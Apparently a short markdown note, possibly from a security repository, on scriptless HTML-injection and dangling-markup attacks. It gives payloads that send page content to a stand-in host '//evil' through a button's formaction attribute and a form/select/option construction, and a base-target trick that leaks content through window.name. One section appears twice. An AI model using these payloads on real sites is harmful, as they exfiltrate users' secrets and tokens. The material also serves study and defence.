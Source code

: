 # TOPIC
HTTP SCRIPTLESS ATTACKS / DANGLING MARKUP ATTACK

# OVERVIEW
This is a scenario or a situation, when you have found a HTML injection but could not escalate it, into a XSS or RCE, but you want to extract sensitive information.
This attack is also useful when sensitive informations are hardcoded in clear text in a HTML.

# INTERSTING ATTACK VECTORS (PART-1)

## BUTTON ATTACK
- The button tag in HTMl, can be used as a scriptless vector
- In HTML 5, the button tag is used for a default form submit, and there is an attribute called "formaction", which can be used to modify the action of the form in which the button is placed in.
- THe button can be placed and be used as a submit value, before a existing or a non existing submit button.
Example vector : <button name=xss type=submit formaction=//evil>I get consumed

## Option as a Scriptless Vector

- Option also consumes HTML and can be used as an attack vector
- Example: <form action=//evil><select name=xss><option><b>steal me!</b>

## Option as a Scriptless Vector

- Option also consumes HTML and can be used as an attack vector
- Example: <form action=//evil><select name=xss><option><b>steal me!</b>

## Using window.name via base target
You can also use the target attribute to assign the contents of the HTML after to the window name and then later retrieve it x-domain after a user clicks an external link.


<base target='
steal me'<b>test</b>

So here we inject a base tag with a target attribute, the target then assigns everything after ‘ to the window.name and then can be retrieved when the user clicks to the external server.

# REFERENCES
```
http://www.thespanner.co.uk/2011/12/21/html-scriptless-attacks/
```
